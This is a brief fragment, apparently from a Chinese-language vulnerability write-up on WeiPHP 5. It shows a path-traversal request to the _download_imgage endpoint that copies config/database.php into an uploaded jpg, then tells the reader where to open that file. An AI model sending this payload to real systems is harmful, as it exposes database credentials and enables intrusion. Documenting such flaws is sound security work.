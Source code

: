 
```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](../../../.vuepress/public/img/weiphp-5.png)



查看目录`/public/uploads/picture/`，并用记事本打开写入的jpg文件


